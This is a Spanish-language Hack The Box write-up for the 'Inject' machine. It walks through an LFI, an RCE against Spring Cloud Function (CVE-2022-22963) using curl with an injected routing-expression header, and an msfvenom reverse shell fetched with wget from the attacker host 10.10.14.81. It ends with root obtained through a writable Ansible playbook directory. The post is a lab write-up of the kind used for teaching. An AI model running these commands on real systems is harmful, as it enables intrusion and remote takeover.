 ```yaml
---
layout: single
title: Inject - Hack The Box - WriteUp
excerpt: "Resolución de la máquina de dificultad fácil 'Inject' de Hack the Box"
date: 2023-03-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-inject/inject-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - spring
  - maven
  - LFI
  - RCE
  - msfvenom

---
```


![inject-logo](/assets/images/htb-writeup-inject/inject-logo.png)

## Portscan

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-14 16:53 CET
Initiating SYN Stealth Scan at 16:53
Scanning 10.10.11.204 [65535 ports]
Discovered open port 22/tcp on 10.10.11.204
Discovered open port 8080/tcp on 10.10.11.204
Completed SYN Stealth Scan at 16:53, 14.01s elapsed (65535 total ports)
Nmap scan report for 10.10.11.204
Host is up, received user-set (0.057s latency).
Scanned at 2023-03-14 16:53:27 CET for 14s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.15 seconds
           Raw packets sent: 70006 (3.080MB) | Rcvd: 69922 (2.797MB)
```

## Website

La web nos presenta las opciones de "Log in" y "Sign up" pero ninguna funciona. También encontramos una funcionalidad de subida de ficheros que solo permite subir imágenes. El primer pensamiento al encontrarnos con esto es intentar bypassear el filtro y subir una shell reversa, pero la aplicación está montada de tal manera que nunca va a ejecutar un php, sino que siempre cargará los ficheros como imágenes.

Descatarndo el bypass del filtro, si usamos Burpsuite e interceptamops la petición que realizamos para abrir una imagen subida obersamos que podemos realizar un LFI.

![lfi-passwd](/assets/images/htb-writeup-inject/lfi-passwd.png)

Este LFI nos permite revisar los directorios y qué ficheros hay en cada uno, así que vamos a aprovecharnos de ésto para ver la estructura de la aplicación web.

Ésta app usa java y encontramos el fichero "UserController.java" que contiene toda la funcionalidad de la web, y aquí es donde vemos que efectivamente no se podía hacer bypass del filtro de imágenes.

![user-controller](/assets/images/htb-writeup-inject/user-controller.png)

La aplicación usa el framework de Spring y Maven para su gestión, así que revisando el archivo de configuración Maven "pom.xml" vemos que se están usando diferentes dependecnias y una de ellas es vulnerable en la versión que se está usando.

![spring-cloud-version](/assets/images/htb-writeup-inject/spring-cloud-version.png)

La vulnerabilidad catalogada como **CVE-2022-22963** permite realizar un RCE con la siguiente petición usando curl:

```bash
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("<COMANDO>")' --data-raw 'data' -v
```

Aprovechando este RCE podemos crear una shell reversa con msfvenom:

```bash
msfvenom -p linux/x64/shell_reverse_tcp -LHOST=10.10.14.81 -LPORT=4444 -f elf -o shell.elf
```

Y subirla a la máquina victima con wget por ejemplo:

```bash
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget -O /tmp/shell.elf http://10.10.14.81/shell.elf")' --data-raw 'data' -v
```

## User shell

Una vez tenemos la shell reversa en la máquina víctima, la ejecutamos con el comando

```bash
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("./tmp/shell.elf")' --data-raw 'data' -v
```

Y obtenemos una shell interactiva.

![user-shell](/assets/images/htb-writeup-inject/user-shell.png)

Aún no podemos leer la flag de usuario puesto que "frank" no tiene permisos. Pero en el directorio home de frank encontramos un archivo dentro de un directorio oculto llamado ".m2" que contiene información sensible del usuario phil. Con esta información podemos cambiar de usuario y obtener la flag.

![user-flag](/assets/images/htb-writeup-inject/user-flag.png)

## Privilege escalation

![ansible-folder](/assets/images/htb-writeup-inject/ansible-folder.png)

Observamos que el usuario phil pertenece al grupo "staff" que tiene permisos de escritura en la carpeta **/opt/automation/tasks**, en el cual se guardan los "playbooks" ejecutados por **ansible**.

Ansible es vulnerable y permite la elevación de privilegios si tenemos permisos para crear un playbook que nos lo permita. Para esto debemos crear un playbook que ejecute un script con permisos de root:

![ansible-priv-esc](/assets/images/htb-writeup-inject/ansible-priv-esc.png)

Como vemos, este playbook ejecuta en comando "sudo bash /tmp/root.sh" en el servidor localhost y a su vez el script root.sh conecta con nuestra máquina atacante dándonos una shell reversa.

Ahora solo queda ejecutar el playbook usando el comando "ansible" y esperando un poco obtendremos la shell con permisos de root y su respectiva flag:

![root-flag](/assets/images/htb-writeup-inject/root-flag.png)
